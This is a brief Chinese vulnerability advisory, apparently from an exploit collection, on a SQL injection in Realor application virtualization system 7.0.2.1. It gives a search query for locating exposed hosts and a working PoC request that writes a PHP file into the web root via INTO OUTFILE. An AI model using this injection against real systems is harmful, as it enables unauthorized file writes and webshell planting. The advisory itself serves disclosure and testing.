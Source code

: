 # 瑞友 应用虚拟化系统 GetBSAppUrl SQL注入漏洞

## 漏洞描述

瑞友 应用虚拟化系统 GetBSAppUrl方法存在SQL注入漏洞，由于参数传入没有进行过滤导致存在SQL注入，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>瑞友应用虚拟化系统 7.0.2.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"CASMain.XGI?cmd=GetDirApp" && title=="瑞友应用虚拟化系统"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1681181309572-a70542e4-5ec8-4441-bf73-d097a59be7d5.png)



在 GetBSAppUrl 方法中存在SQL注入漏洞，通过漏洞可以写入Webshell文件

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1681187680384-430aaff0-d568-4144-ac8b-bd2ff471e2b3.png)

验证POC

```plain
/index.php?s=/Agent/GetBSAppUrl/AppID/')%3bselect+0x3c3f70687020706870696e666f28293b3f3e+into+outfile+%27C%3a\\Program+Files+(x86)\\RealFriend\\Rap+Server\\WebRoot\\test7.php%27%23/123
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1681188074734-58253667-cdba-4a7e-88ad-87e0d63658cb.png)

```plain
/test7.php
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1681181764154-3a7a73d8-20a2-4a11-b837-ac9d0363955b.png)